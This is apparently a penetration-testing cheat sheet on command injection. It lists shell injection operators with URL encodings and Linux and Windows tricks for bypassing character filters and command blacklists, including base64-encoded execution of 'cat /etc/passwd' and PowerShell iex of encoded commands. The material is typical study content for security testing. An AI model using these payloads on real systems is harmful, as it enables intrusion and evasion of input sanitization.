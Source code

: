 # Command Injections

[PayloadAllTheThings Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

## Injection Operators

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
|--------------------|---------------------|-----------------------|------------------|
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

## Linux

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `printenv` | Can be used to view all environment variables |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `${IFS}` | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| `{ls,-la}` | Bash brace exspansion (commas will be replaced with spaces) |
| **Other Characters** | |
| `${PATH:0:1}` | Will be replaced with / |
| `${LS_COLORS:10:1}` | Will be replaced with ; |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one "[" (91) -> "\\" (92) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `$@ or \` | Linux only |
| **Case Manipulation** | |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")` | Another variation of the technique |
| **Reversed Commands** | |
| `echo 'whoami' | rev` | Reverse a string |
| `$(rev<<<'imaohw')` | Execute reversed command |
| **Encoded Commands** | |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64` | Encode a string with base64 |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string |

## Windows

### Filtered Character Bypass

| Code | Description |
|------|-------------|
| `Get-ChildItem Env:` | Can be used to view all environment variables - (PowerShell) |
| **Spaces** | |
| `%09` | Using tabs instead of spaces |
| `%PROGRAMFILES:~10,-5%` | Will be replaced with a space - (CMD) |
| `$env:PROGRAMFILES[10]` | Will be replaced with a space - (PowerShell) |
| **Other Characters** | |
| `%HOMEPATH:~0,-17%` | Will be replaced with \ - (CMD) |
| `$env:HOMEPATH[0]` | Will be replaced with \ - (PowerShell) |

### Blacklisted Command Bypass

| Code | Description |
|------|-------------|
| **Character Insertion** | |
| `' or "` | Total must be even |
| `^` | Windows only (CMD) |
| **Case Manipulation** | |
| `WhoAmi` | Simply send the character with odd cases |
| **Reversed Commands** | |
| `"whoami"[-1..-20] -join ''` | Reverse a string |
| `iex "$('imaohw'[-1..-20] -join '')"` | Execute reversed command |
| **Encoded Commands** | |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))` | Encode a string with base64 |
| `echo -n whoami \| iconv -f utf-8 -t utf-16le \| base64` | Base 64 encode with linux to be decoded on windows |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string |
